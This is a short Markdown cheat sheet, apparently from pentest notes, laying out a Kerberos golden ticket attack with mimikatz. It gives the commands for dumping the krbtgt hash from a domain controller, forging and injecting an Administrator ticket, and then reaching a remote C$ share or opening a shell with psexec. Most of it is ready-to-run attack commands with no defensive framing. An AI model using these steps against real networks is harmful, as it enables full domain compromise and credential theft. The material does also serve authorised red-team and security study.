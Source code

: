 In the *mimikatz* prompt with `privilege::debug`, execute:
```mimikatz
lsadump::lsa /inject /name:krbtgt
```

Generate a golden ticket with the infos from the previous command:
```cmd
kerberos::golden /User:Administrator /domain:<AD-FQDN> /sid:<SID> /krbtgt:<NTLM-hash> /id:500 /ptt
```
Args:
`/User`: Any value here, its not important
`/domain`: AD FQDN
`/sid`: SID, e.g. `S-1-5-21-2326780594-1701311207-1489289825`
`/krbtgt`: NTLM-hash of krbtgt
`/id`: Admin account ID
`/ptt`: Pass the ticket

This command creates a new golden ticket for the current session.

---

In the *mimikatz* prompt type `misc::cmd` to create a new command window.
We can use the golden ticket to perform all kind of attacks.

**Example 1:**
List the C: directory on a computer:
```cmd
dir \\<computer>\c$
```

**Example 2:**
Download and run *psexec* to get a local shell on a computer:
```cmd
psexec.exe \\<computer> cmd.exe
```